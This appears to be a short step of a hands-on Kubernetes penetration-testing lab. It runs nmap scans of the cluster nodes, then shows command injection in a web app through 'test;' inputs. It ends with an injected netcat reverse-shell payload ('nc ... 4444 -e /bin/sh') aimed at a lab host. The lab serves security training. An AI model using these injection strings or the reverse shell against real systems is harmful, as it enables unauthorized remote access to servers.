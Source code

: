 ### Scan for open ports might take some time

`nmap <Copy Link from the above scenerio of master node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

`nmap <Copy Link from the above scenerio of worker node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

### Enter test;%20ls in the webapp

`echo "RG9ja2VyZmlsZQphcGkucHkKcmVxdWlyZW1lbnRzLnR4dAo=" | base64 --decode`{{execute}}

### Enter test;which%20nc

`echo "L3Vzci9iaW4vbmMK" | base64 --decode`{{execute}}

`test;nc%20 [[HOST_SUBDOMAIN]]-80-[[KATACODA_HOST]].[[KATACODA_DOMAIN]] %204444%20-e%20/bin/sh`{{copy}}
